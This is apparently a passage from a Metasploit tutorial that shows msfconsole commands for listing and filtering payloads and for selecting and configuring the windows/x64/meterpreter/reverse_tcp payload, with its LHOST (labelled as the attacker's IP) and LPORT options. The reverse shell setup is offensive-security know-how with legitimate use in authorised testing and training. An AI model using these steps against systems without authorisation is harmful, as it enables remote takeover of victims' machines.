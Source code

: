 To list all available payloads:

```bash
msf6 > show payloads
```

### Using `grep` to Filter

To filter payloads by keyword:

```bash
msf6 > grep meterpreter show payloads
[*] 14 results
```

Further narrow down to `reverse_tcp`:

```bash
msf6 > grep meterpreter grep reverse_tcp show payloads
[*] 3 results:
payload/windows/x64/meterpreter/reverse_tcp
payload/windows/x64/meterpreter/reverse_tcp_rc4
payload/windows/x64/meterpreter/reverse_tcp_uuid
```

---

## Selecting and Setting Payloads

Once an exploit is selected, set the payload using:

```bash
msf6 > set payload windows/x64/meterpreter/reverse_tcp
```

To view payload-specific options:

```bash
msf6 > show options
```

### Example: Payload Options

```bash
Payload options (windows/x64/meterpreter/reverse_tcp):

Name      | Current Setting | Required | Description
----------|------------------|----------|------------
EXITFUNC  | thread           | yes      | Exit technique
LHOST     | [your IP]        | yes      | Local IP (attacker)
LPORT     | 4444             | yes      | Listening port
```

You can check your LHOST quickly:

```bash
msf6 > ifconfig
```

---